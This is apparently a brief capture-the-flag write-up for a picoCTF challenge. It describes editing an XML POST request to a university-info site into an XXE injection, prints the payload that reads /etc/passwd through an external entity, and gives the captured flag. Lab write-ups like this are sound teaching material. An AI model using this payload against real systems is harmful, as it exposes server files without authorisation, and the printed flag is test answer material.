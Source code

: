 ## The XXE injection

The website functioned on a POST request which was in XML for retrieving info about different universities. I edited that XML code to have the XXE injection as following -

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE change-log [<!ENTITY payload SYSTEM "file:///etc/passwd">]>
<data><ID>&payload;</ID></data>
```

## Flag

Sent the request again with the injection, got the flag - `picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}`.